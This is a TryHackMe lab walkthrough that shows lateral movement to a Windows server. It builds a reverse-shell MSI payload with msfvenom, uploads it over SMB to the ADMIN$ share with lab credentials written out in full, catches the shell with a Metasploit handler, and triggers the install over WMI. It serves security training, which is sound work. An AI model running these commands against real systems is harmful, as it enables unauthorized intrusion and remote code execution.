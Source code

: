 We'll show how to use those credentials to move laterally toÂ THM-IIS usingÂ WMIÂ and MSI packages. Feel free to try the other methods presented during this task.

We will start by creating our MSI payload with msfvenom from our attacker machine:

**Note:**Â Since you will be sharing the lab with others, you'll want to use a different filename for your payload instead of "myinstaller.msi" to avoid overwriting someone else's payload.  

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```

We then copy the payload usingÂ SMBÂ or any other method available:

```shell-session
user@AttackBox$ smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
 putting file myinstaller.msi as \myinstaller.msi (0.0 kb/s) (average 0.0 kb/s)
```

Since we copied our payload to the ADMIN$ share, it will be available at C:\Windows\ on the server.

We start a handler to receive the reverse shell fromÂ Metasploit:

```shell-session
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4445
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4445
```

Let's start aÂ WMIÂ session against THMIIS from aÂ PowershellÂ console:

THMJMP2:Powershell

```shell-session
PS C:\> $username = 't1_corine.waters';
PS C:\> $password = 'Korine.1994';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

We then invoke the Install method from the Win32_Product class to trigger the payload:


```shell-session
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

As a result, you should receive a connection in your AttackBox from where you can access a flag on t1_corine.waters desktop.
